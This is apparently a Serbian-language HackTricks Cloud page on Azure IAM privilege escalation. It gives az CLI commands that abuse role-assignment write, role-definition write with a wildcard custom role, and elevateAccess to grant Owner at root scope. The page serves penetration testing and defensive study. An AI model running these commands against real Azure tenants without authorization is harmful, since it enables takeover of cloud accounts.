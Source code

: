 # Az - Azure IAM Privesc (Authorization)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Azure IAM

Za više informacija pogledajte:

{% content-ref url="../az-services/az-azuread.md" %}
[az-azuread.md](../az-services/az-azuread.md)
{% endcontent-ref %}

### Microsoft.Authorization/roleAssignments/write

Ova dozvola omogućava dodeljivanje uloga principima unutar specifičnog opsega, omogućavajući napadaču da eskalira privilegije dodeljujući sebi privilegovaniju ulogu:

{% code overflow="wrap" %}
```bash
# Example
az role assignment create --role Owner --assignee "24efe8cf-c59e-45c2-a5c7-c7e552a07170" --scope "/subscriptions/9291ff6e-6afb-430e-82a4-6f04b2d05c7f/resourceGroups/Resource_Group_1/providers/Microsoft.KeyVault/vaults/testing-1231234"
```
{% endcode %}

### Microsoft.Authorization/roleDefinitions/Write

Ova dozvola omogućava modifikaciju dozvola koje dodeljuje uloga, omogućavajući napadaču da eskalira privilegije dodeljivanjem više dozvola ulozi koju je dodelio.

Kreirajte datoteku `role.json` sa sledećim **sadržajem**:
```json
{
"Name": "<name of the role>",
"IsCustom": true,
"Description": "Custom role with elevated privileges",
"Actions": [
"*"
],
"NotActions": [],
"DataActions": [
"*"
],
"NotDataActions": [],
"AssignableScopes": [
"/subscriptions/<subscription-id>"
]
}
```
Zatim ažurirajte dozvole uloge sa prethodnom definicijom pozivajući:
```bash
az role definition update --role-definition role.json
```
### Microsoft.Authorization/elevateAccess/action

Ova dozvola omogućava podizanje privilegija i dodeljivanje dozvola bilo kojem principalu za Azure resurse. Namenjena je Entra ID Global Administratorima kako bi mogli da upravljaju dozvolama nad Azure resursima.

{% hint style="success" %}
Mislim da korisnik treba da bude Global Administrator u Entra ID da bi poziv za podizanje privilegija radio.
{% endhint %}

{% code overflow="wrap" %}
```bash
# Call elevate
az rest --method POST --uri "https://management.azure.com/providers/Microsoft.Authorization/elevateAccess?api-version=2016-07-01"

# Grant a user the Owner role
az role assignment create --assignee "<obeject-id>" --role "Owner" --scope "/"
```
{% endcode %}

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
